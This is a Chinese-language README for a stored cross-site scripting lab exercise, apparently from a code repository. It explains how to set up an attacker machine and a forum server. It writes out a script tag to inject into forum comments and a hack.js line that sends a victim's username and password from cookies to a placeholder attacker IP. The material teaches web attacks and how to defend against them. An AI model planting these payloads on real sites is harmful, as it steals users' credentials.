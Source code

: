 # 跨站式脚本攻击（XSS attack) 实验

# 支持的操作系统
Windows, Linux
# 需要软件
Apache HTTP Server, MySQL, PHP 7.0
# 安装细节
在这实验中， Hacker需要安装 Apache和PHP, 而服务器三个软件都需要安装。
对于Windows, 把代码放到 Apache 的 DocumentRoot: C:\Apache24\htdocs
对于Linux，把代码放到 Apache 的 DocumentRoot: /var/www/html/
Hacker 和服务器的代码分别在 hack 和 webserver文件夹里。
然后， 在webserver/databaseAuth.txt 需要隔行分别提供MySQL的用户名和密码
然后，在/hack/hack.js里需要把代码进行修改：script.src = 'http://#在这里写hacker的IP地址#/index.php?username=' + username + '&password='+password;
# 实验过程
我门设定了用户 hacker 和他的密码位：78539816, 正常用户 jim123 和他的密码位：12345678 (这些可在createDatabase.sql 修改）
首先， hacker在登入了网页后，在论坛的评论输入区输入恶意代码： <script type = "text/javascript" src = "http://#在这里写hacker的IP地址#/hack.js"></script>
，并注入到数据库里。这样，恶意代码只要数据库管里员一日没有发现，恶意代码将会永远存储在数据库。然后我们假设服务器会把用户用户名和密码存储到Cookies。每当正常用户
在论坛里登入后再发评论，会显示到其他用户的评论，而在此时恶意代码将会执行，并把存放在正常用户客户端的Cookies发到Hacker，从而Hacker得到用户名和密码。
